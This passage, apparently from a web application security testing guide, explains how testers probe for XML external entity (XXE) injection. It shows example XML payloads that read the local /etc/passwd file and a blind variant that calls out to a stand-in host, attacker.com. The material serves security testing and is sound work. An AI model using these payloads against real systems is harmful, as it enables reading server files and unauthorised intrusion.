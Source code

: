 Alternatively, certain applications use JSON style communication which could be parsed and converted before processing in a back-end XML processor. In such cases, testers should convert JSON data to XML data using an intercepting proxy tool, to confirm if the application uses an XML processor on the back-end.

### Generic Test Cases

To test an application for the presence of XXE Injection vulnerability, XML entity declaration can be inserted in the request, to test if the introduced entity is expanded by the XML processor.

For example, tester can introduce a new XML entity in the user registration request.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY entitytest "John"> ]>
<user>
    <username>&entitytest;</username>
    <password>Sec$r3P@ss</password>
    <email>s4tan@hell.com</email>
</user>
```

An XML processor vulnerable to XXE may expand above request to replace instances of `entitytest` entity with the string `John`.

#### Read local files

To test if local files can be read, introduce (or edit) DOCTYPE element to define an entity that references a local file.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<user>
    <username>John</username>
    <password>Sec$r3P@ss</password>
    <email>s4tan@hell.com</email>
    <address>&xxe;</address>
</user>
```

When the payload is dereferenced by the XML processor, entity `&xxe` is expanded to replace with the contents of local file `/etc/passwd`. This causes application to include the contents of the file in the response. For applications running on Windows based servers, this test can be performed by introducing an entity referencing `C:\windows\system32\drivers\etc\hosts`.

#### Blind XXE

In many cases, XML processor may expand the tainted XML input but the output is not included in the application response. Direct retrieval of server-side files are not feasible in such situations. To test such applications, an external entity can be defined to reference a tester controlled URL, which will receive an out-of-band network interaction on successful entity expansion.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/xxe-test"> ]>
<shoppingcart>
    <pid>123</pid>
    <productname>Cotton Candy</productname>
    <comments>&xxe;</comments>
</shoppingcart>
```
